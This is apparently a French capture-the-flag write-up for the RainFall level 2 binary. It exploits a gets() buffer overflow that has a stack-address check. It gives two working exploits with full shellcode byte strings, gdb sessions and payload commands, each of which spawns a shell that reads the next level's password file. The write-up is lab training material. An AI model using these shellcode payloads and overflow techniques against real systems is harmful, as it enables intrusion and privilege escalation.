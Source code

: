 # Level 2

Ce binaire utilise aussi la fonction [`gets`](https://linux.die.net/man/3/gets) comme le [niveau 1](/level1/README.md). Cependant le programme a une protection qui vérifie si l'adresse de EIP n'est pas une adresse de la stack, commencant donc par `0xb...`. Mais nous pouvons exporter un [*shellcode*](https://en.wikipedia.org/wiki/Shellcode) dans l'environnement, et *jump* à l'adresse de `return` et la modifier par l'adresse de notre shellcode.

Nous pouvons importer notre shellcode dans l'`env` et lors du `ret` jump à cette adresse :
```shell
~ export SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"'`
~ gdb level2
[...]
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
[...]
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
[...]
   0x0804853e <+106>:	ret
End of assembler dump.
(gdb) b *0x08048542
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) info variable env
All variables matching regular expression "env":

Non-debugging symbols:
0xb7fd2e04  __environ
0xb7fd2e04  _environ
0xb7fd2e04  environ
(gdb) x/s *((char**)environ+0)
0xbffff88e:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Phn/shh//bi\211\343\231RS\211\341\260\v\315\200""
(gdb) quit
~ python -c 'print "B"*80 + "\x3e\x85\x04\x08" + "\x8e\xf8\xff\xbf"' > /tmp/level2
~ level2@RainFall:~$ cat /tmp/level2 - | ./level2
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB>BBBBBBBBBBBB>����
pwd
/home/user/level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Solution alternative
- Cette fois-ci, nous allons directement injecter notre *payload* dans l'entrée du binaire, via un [*shellcode*](https://en.wikipedia.org/wiki/Shellcode) (en l'espèce, [celui-ci](http://shell-storm.org/shellcode/files/shellcode-575.php)).
- La vérification d'adresse nous empêche d'utiliser le dessous de la *stack* ; nous allons donc plutôt chercher dans la section `.text` du binaire. Plus précisément, nous recherchons une instruction `call eax` (qui va ensuite appeller notre *shellcode*) : `objdump -d level2 | grep "call.*eax"`. On en trouve une à l'adresse `0x080484cf`.
- On reprend donc la même logique que pour le [level1](/level1/README.md) :
    - on place notre *payload* dans un fichier : `python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 'A' * 59 + '\xcf\x84\x04\x08'" > /tmp/lvl2`
    - on lit ce fichier dans l'entrée standard du binaire : `cat /tmp/lvl2 - | ./level2`
- Une fois dans le shell, `whoami` nous confirme que l'on est bien `level3`. Il reste juste à `cat /home/user/level3/.pass`.